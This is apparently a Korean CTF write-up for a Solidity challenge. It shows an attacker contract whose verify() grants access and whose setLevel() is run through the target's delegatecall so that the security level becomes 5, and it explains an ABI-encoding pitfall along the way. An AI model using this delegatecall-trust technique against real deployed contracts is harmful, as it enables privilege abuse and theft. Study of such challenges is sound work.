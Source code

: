 ```

contract CertificateAuthority{
    mapping(address => bool) grantedUsers;

    constructor() {   }

    function verify(address user) public payable  returns (bool){
        if(msg.value > 1000000000000000000000 ){
            grantedUsers[user] = true;
            return true;
        }
        else if (grantedUsers[user] == true){ 
            return true;
        }
        return false;
    }

    function setLevel(address owner, address toSet, uint256 level)public returns(uint256){
        require(msg.sender == owner);
        require(grantedUsers[toSet] == true);
        
            level = level << 3;
            level = level ^ 0xD9;
            level = level & 0x03;

        return level;
    }

     receive() external payable { 
        
        require(msg.value > 1000000000000000000000);
        
     }
}
```
이 문제의 플래그 획득 조건은 함수 호출자의 권한이 부여되어 있어야 하고, 보안 레벨이 5이면 된다. 먼저 권한 설정은 `accessRequest()` 함수에서 진행된다. `accessRequest()` 함수 내부를 보면 전달받은 주소를 이용해서 외부 컨트랙트를 불러오고, 이 컨트랙트의 `verify()` 함수를 호출 하는데, 이 함수의 반환 값이 true이면 권한이 설정된다. 이후에 보안 레벨은 `setSecurityLevel()` 함수에서 설정할 수 있는데, `accessRequest()` 함수에서 불러온 외부 컨트랙트로 `delegatecall()`를 이용하여 `setLevel()` 함수를 호출한다. `setLevel()` 함수의 반환 값으로 `mload(add(result, 0x20))`로 하여서 설정할 레벨이 계산된다. `mload(add(result, 0x20))`는 result 바이트 배열의 시작 위치에서 32바이트를 읽어온 값을 반환한다. 그러니 result의 값이 abi.encode(uint(5))가 반환되게 하면 mload()에 의해 5를 읽어와 보안 레벨이 5로 될 것인다.

> mload() 함수는 어셈블리 코드 내에서 사용되며, 특정 메모리 주소로부터 워드(32바이트) 단위의 데이터를 읽어와 변수에 할당하거나 계산에 사용된다.
{: .prompt-info }

```
function setLevel(address owner, address toSet, uint256 level) public returns(bytes memory){
	bytes memory result = abi.encode(uint(5));
	console2.logBytes(result);
    return result;
}
```
그래서 위와 같이 setLevel() 함수를 만들어서 레벨을 5로 설정 하려고 해보았는데, `delegatecall()` 함수의 반환 값인 result를 출력해보면 `0x000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000005`와 같이 이상한 더미 데이터가 포함되어 레벨이 항상 0x20:32로 설정되는 것을 확인할 수 있었다. 그래서 그냥 이를 바이트로 안 주고, uint로 5를 반환해주니 잘 됐다.
